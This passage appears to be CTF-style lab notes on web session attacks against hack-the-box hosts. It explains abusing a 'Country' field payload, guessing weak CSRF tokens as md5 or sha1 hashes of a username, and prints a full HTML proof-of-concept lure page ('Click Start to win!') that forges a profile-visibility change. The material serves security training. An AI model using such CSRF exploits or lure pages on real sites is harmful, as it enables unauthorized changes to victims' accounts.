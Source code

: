 * Now, we can submit this payload in 'Country' field for given profile. Then, in a new private window, if we login to another profile which is currently 'Private', and browse to attacker-modified public profile using a link like ```http://minilab.htb.net/profile?email=ela.stienen@example.com``` - this modifies the new victim's profile from 'Private' to 'Public'

## Exploiting Weak CSRF Tokens

* For given webapp, we can change visibility of given profile and check the CSRF token value in the intercepted request

* Then, we can use CyberChef to try decoding the CSRF token - or attempting patterns such as ```md5(username)```, ```sha1(username)``` or ```md5(date + username)``` to check for any pitfalls in CSRF token mechanism

* Example exploit to attack users through CSRF:

  ```html
  <!-- name this file as 'press_start_2_win.html -->
  <!DOCTYPE html>
  <html lang="en">

  <head>
      <meta charset="UTF-8">
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <meta name="referrer" content="never">
      <title>Proof-of-concept</title>
      <link rel="stylesheet" href="styles.css">
      <script src="./md5.min.js"></script>
  </head>

  <body>
      <h1> Click Start to win!</h1>
      <button class="button" onclick="trigger()">Start!</button>

      <script>
          let host = 'http://csrf.htb.net'

          function trigger(){
              // Creating/Refreshing the token in server side.
              window.open(`${host}/app/change-visibility`)
              window.setTimeout(startPoc, 2000)
          }

          function startPoc() {
              // Setting the username
              let hash = md5("crazygorilla983")

              window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
          }
      </script>
  </body>
  </html>
  ```

